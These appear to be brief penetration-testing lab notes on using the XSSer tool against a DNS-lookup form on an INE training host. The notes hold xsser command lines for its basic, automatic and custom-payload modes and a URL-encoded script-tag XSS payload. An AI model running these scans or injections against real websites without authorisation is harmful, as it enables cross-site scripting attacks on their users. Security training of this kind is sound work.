



    xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

## Auto Option

    xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

## Custom Payload

    xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp ""

    target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS

